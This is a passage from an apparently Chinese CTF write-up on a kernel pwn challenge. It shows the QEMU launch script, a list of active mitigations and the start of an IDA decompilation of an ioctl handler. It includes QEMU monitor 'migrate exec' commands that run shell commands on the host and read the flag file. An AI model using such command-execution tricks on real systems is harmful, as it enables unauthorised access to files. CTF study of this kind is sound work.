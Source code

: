 当然，若是在这个随机偏移值较小且我们仍有足够多的寄存器可用的情况下，仍然可以通过布置一些 slide gadget 来继续完成利用，不过稳定性也大幅下降了。

首先查看启动脚本，可以发现开启了 SMEP 和 KASLR：

```assembly
#!/bin/sh

qemu-system-x86_64  \
-m 64M \
-cpu kvm64,+smep \
-kernel ./bzImage \
-initrd rootfs.img \
-nographic \
-s \
-append "console=ttyS0 kaslr quiet noapic"
```

没有使用`-monitor /dev/null`将monitor重定向，可以直接进入monitor导出docker中的文件系统

在启动qemu后点击`ctrl+a`后再按`c`即可进入monitor控制台

```assembly
migrate "exec:cp rootfs.img /tmp"
migrate "exec:cd /tmp;zcat rootfs.img | cpio -idmv 1>&2"
migrate "exec:cat /tmp/flag 1>&2"
```

进入题目环境，查看 `/sys/devices/system/cpu/vulnerabilities/*`，可以发现开启了 PTI （页表隔离）：

```assembly
/ $ cat /sys/devices/system/cpu/vulnerabilities/*
KVM: Mitigation: VMX unsupported
Mitigation: PTE Inversion
Vulnerable: Clear CPU buffers attempted, no microcode; SMT Host state unknown
Mitigation: PTI
Vulnerable
Mitigation: usercopy/swapgs barriers and __user pointer sanitization
Mitigation: Full generic retpoline, STIBP: disabled, RSB filling
Not affected
Not affected
```

题目给了个 test.ko，拖入 IDA 进行分析

kerpwn_ioctl

```assembly
unsigned __int64 __fastcall kerpwn_ioctl(__int64 a1, __int64 a2)
{
  __int64 v2; // rdx
  unsigned __int64 result; // rax
  __int64 v4; // r12
  unsigned __int64 v5; // r13
  __int64 v6; // r14
  __int64 v7; // rax
  __int64 v8; // rbx
  unsigned __int64 v9; // r12
  unsigned __int64 v10; // r13
  __int64 v11; // rax
  unsigned __int64 v12; // [rsp-48h] [rbp-48h] BYREF
  unsigned __int64 v13; // [rsp-40h] [rbp-40h]
  __int64 v14; // [rsp-38h] [rbp-38h]
  unsigned __int64 v15; // [rsp-30h] [rbp-30h]

  _fentry__(a1, a2);
  v15 = __readgsqword(0x28u);
  result = 0LL;
  if ( (_DWORD)a2 == 0x40 )
  {
```